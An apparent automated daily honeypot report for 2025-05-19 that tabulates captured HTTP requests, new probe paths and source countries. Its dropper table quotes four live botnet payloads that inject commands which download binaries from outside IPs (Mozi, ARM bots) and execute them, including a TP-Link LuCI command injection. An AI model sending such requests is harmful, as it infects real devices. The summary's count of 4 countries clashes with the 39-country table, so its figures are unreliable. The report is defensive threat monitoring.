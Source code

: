```yaml
---
title: "Report: 2025-05-19 "
date: 2025-05-19
desciption: "Report: 2025-05-19" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-19 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 31 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 916 requests were recorded during the day, originating from 4 different countries, with a peak of 217 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 27.43.205.52   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                           |
| 8.152.208.190  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                        |
| 124.220.11.157 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
| 141.98.11.128  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1                                                                                                                                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
|  22 |                     3 | GET /admin/assets/js/pbxlib.js HTTP/1.0                 |
|  80 |                     2 | GET /js HTTP/1.1                                        |
|  81 |                     2 | GET /BU HTTP/1.1                                        |
|  82 |                     2 | GET /st HTTP/1.1                                        |
|  83 |                     2 | GET /Cp HTTP/1.1                                        |
|  84 |                     2 | GET /bu HTTP/1.1                                        |
|  86 |                     2 | GET /s HTTP/1.1                                         |
|  87 |                     2 | GET /m HTTP/1.1                                         |
|  88 |                     2 | GET /css/test HTTP/1.1                                  |
|  89 |                     2 | GET /cms/test HTTP/1.1                                  |
|  90 |                     2 | GET /cli/test HTTP/1.1                                  |
|  91 |                     2 | GET /bot/test HTTP/1.1                                  |
|  92 |                     2 | GET /bin/test HTTP/1.1                                  |
|  93 |                     2 | GET /ads/test HTTP/1.1                                  |
|  94 |                     2 | GET /acp/test HTTP/1.1                                  |
|  95 |                     2 | GET /Web/test HTTP/1.1                                  |
|  96 |                     2 | GET /New/test HTTP/1.1                                  |
|  97 |                     2 | GET /Inc/test HTTP/1.1                                  |
|  98 |                     2 | GET /Env/test HTTP/1.1                                  |
|  99 |                     2 | GET /doc/test HTTP/1.1                                  |
| 100 |                     2 | GET /DOC/test HTTP/1.1                                  |
| 103 |                     2 | GET /div/test HTTP/1.1                                  |
| 104 |                     2 | GET /dev/test HTTP/1.1                                  |
| 105 |                     2 | GET /DEV/test HTTP/1.1                                  |
| 106 |                     2 | GET /Dev/test HTTP/1.1                                  |
| 174 |                     1 | POST /soap/server_sa/ HTTP/1.1                          |
| 180 |                     1 | \x00\x0E8`&\x8A\xD9\x97w\xB0\xCE\x00\x00\x00\x00\x00    |
| 181 |                     1 | \x00\x0E\x08`&\x8A\xD9\x97w\xB0\xCE\x00\x00\x00\x00\x00 |
| 184 |                     1 | GET /Vk2j HTTP/1.1                                      |
| 185 |                     1 | GET /9phK HTTP/1.1                                      |
| 219 |                     1 | GET /Doc/test HTTP/1.1                                  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   217 | US                 |
|  1 |                   178 | BG                 |
|  2 |                    87 | PL                 |
|  3 |                    80 | GB                 |
|  4 |                    60 | NL                 |
|  5 |                    45 | ID                 |
|  6 |                    39 | JP                 |
|  7 |                    29 | DE                 |
|  8 |                    22 | HK                 |
|  9 |                    14 | CN                 |
| 10 |                    13 | RU                 |
| 11 |                    12 | IN                 |
| 12 |                    12 | UA                 |
| 13 |                    12 | AZ                 |
| 14 |                    12 | CA                 |
| 15 |                    10 | SC                 |
| 16 |                    10 | LT                 |
| 17 |                     8 | GH                 |
| 18 |                     6 | BR                 |
| 19 |                     5 | KR                 |
| 20 |                     5 | SG                 |
| 21 |                     5 | ZA                 |
| 22 |                     4 | MD                 |
| 23 |                     4 | IL                 |
| 24 |                     3 | FR                 |
| 25 |                     3 | ES                 |
| 26 |                     3 | BE                 |
| 27 |                     3 | PK                 |
| 28 |                     2 | PH                 |
| 29 |                     2 | VN                 |
| 30 |                     2 | TR                 |
| 31 |                     2 | SE                 |
| 32 |                     1 | RO                 |
| 33 |                     1 | PT                 |
| 34 |                     1 | IR                 |
| 35 |                     1 | AR                 |
| 36 |                     1 | MY                 |
| 37 |                     1 | KE                 |
| 38 |                     1 | AO                 |
